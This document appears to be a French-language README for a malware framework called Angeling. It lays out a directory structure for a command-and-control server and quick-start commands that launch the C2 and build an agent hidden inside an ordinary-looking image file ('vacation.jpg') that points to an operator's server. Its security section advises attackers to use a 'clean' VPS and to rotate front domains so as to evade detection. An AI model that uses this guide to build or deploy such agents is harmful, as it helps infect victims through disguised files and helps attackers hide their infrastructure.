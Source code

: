 # Angeling Deployment Guide

## Structure
```
deploy/
├── server/              # Serveur C2
│   ├── Dockerfile      # Configuration Docker pour le serveur
│   ├── requirements.txt # Dépendances Python
│   ├── server.py       # Code du serveur C2
│   └── nginx.conf      # Configuration Nginx
├── client/             # Configuration client
│   ├── config.json     # Template de configuration
│   └── images/         # Images de base pour polyglot
└── scripts/            # Scripts utilitaires
    ├── build.sh        # Script de build
    └── deploy.sh       # Script de déploiement
```

## Quick Start

1. Configuration du serveur :
```bash
cd server
docker-compose up -d
```

2. Génération d'un agent :
```bash
cd client
./build.sh --image vacation.jpg --c2 your-server.com
```

3. Administration :
- Interface web : https://your-server.com:8443
- API : https://your-server.com:8443/api

## Sécurité

- Utilisez des certificats SSL valides
- Configurez correctement le pare-feu
- Utilisez un VPS "propre"
- Changez régulièrement les domaines frontaux
- Activez la rotation des clés
